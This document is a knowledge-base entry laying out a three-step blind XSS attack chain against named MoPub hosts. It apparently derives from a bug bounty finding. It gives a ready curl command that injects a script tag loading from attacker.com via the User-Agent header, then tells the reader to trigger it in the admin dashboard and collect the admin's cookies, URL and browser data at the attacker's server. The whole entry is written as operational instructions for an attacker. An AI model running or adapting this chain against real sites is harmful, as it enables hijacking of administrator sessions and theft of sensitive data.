

---
tags:
  - xss
  - blind-xss
  - javascript
  - data-exfiltration
  - web
type: attack_chain
tools: []
tactics:
  - '[[Execution]]'
  - '[[Collection]]'
verified: false
platforms:
  - Web
submitted: true
complexity: medium
procedures:
  - '[[procedures/Inject-Malicious-User-Agent-Payload]]'
  - '[[procedures/Trigger-XSS-in-Admin-Dashboard]]'
  - '[[procedures/Exfiltrate-Data-from-Admin-Context]]'
step_count: 3
techniques:
  - '[[JavaScript]]'
description: >-
  A multi-stage blind XSS attack exploiting the reflection of the User-Agent
  header in an unencoded <option> tag within the MoPub admin dashboard, leading
  to arbitrary JavaScript execution and data exfiltration from an administrative
  context.
skill_level: intermediate
impact_level: high
id: 6d3c7066-75c9-4e63-9616-61d5a5aa8c65
created_at: '2025-12-14T17:30:27.351Z'
updated_at: '2025-12-14T17:30:27.351Z'
validated: true
mitre_tactics:
  - '[[Execution]]'
  - '[[Collection]]'
mitre_techniques:
  - '[[JavaScript]]'
---
# Blind XSS via User-Agent Header in MoPub Marketplace Admin Dashboard

Multi-stage attack chain demonstrating a blind XSS vulnerability in the MoPub Marketplace Admin Production dashboard, where a malicious User-Agent payload is injected, reflected without encoding in an <option> tag, and executed upon admin access to steal sensitive data.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 3 |
| Execution Time | ~5 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- None (uses standard HTTP client like curl)

### Target Environment

- Web platform with MoPub services
- Access to demand.mopub.com for injection
- Administrative access to sentry-test.mopub.com for triggering

### Initial Access Requirements

- Ability to send HTTP requests to the target login endpoint
- Control over a domain to host the malicious script
- No prior credentials needed for injection, but admin interaction required for execution

## Detailed Attack Procedures

### Step 1: Inject Malicious Payload
procedure: [[procedures/Inject-Malicious-User-Agent-Payload]]

**Objective**: Send a crafted HTTP request to store the malicious User-Agent payload in the backend, setting up the blind XSS.

**Instructions**: Use [[commands/curl-inject-user-agent]] to send the request with the payload:

```bash
curl -H "User-Agent: "></title></style></textarea></script><script src=https://attacker.com/js></script>" https://demand.mopub.com/accounts/login/
```
Replace `https://attacker.com/js` with your controlled domain hosting the script.

**Expected Output**: HTTP 200 or redirect response indicating the request was processed; no immediate visible execution.

**Success Indicators**:
- Request accepted without errors
- Payload stored in backend (verified later via admin trigger)

### Step 2: Trigger XSS Execution
procedure: [[procedures/Trigger-XSS-in-Admin-Dashboard]]

**Objective**: Have an administrator access the dashboard to reflect and execute the injected payload.

**Instructions**: Log in to the admin interface at http://sentry-test.mopub.com/ using valid credentials and navigate to http://sentry-test.mopub.com/exchange-marketplace/marketplace-admin-production/. The User-Agent will be reflected in an <option> tag, escaping the context and loading the script.

**Expected Output**: Script execution in the admin's browser, contacting your server.

**Success Indicators**:
- Admin reports unusual behavior or you see incoming requests from the script
- Payload escapes <option> tag and runs JS

### Step 3: Receive Exfiltrated Data
procedure: [[procedures/Exfiltrate-Data-from-Admin-Context]]

**Objective**: Capture sensitive data sent by the executed script from the admin context.

**Instructions**: Monitor your server logs at attacker.com for requests from the admin's browser. The script should send DOM content, cookies, IP address, and other data.

**Expected Output**: Incoming HTTP requests containing exfiltrated data like document.cookie, location.href, and navigator.userAgent.

**Success Indicators**:
- Data received on attacker server
- Confirmation of admin context (e.g., sensitive cookies present)

## Attack Chain Summary

### Key Achievements

1. Successful blind payload injection via User-Agent without direct feedback
2. Context escape in <option> tag leading to JS execution in high-privilege admin session
3. Exfiltration of sensitive admin data including cookies and IP for potential account takeover

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[JavaScript]]

### MITRE ATT&CK Tactics

- [[Execution]]
- [[Collection]]

---
*Last updated: 2023-10-01*
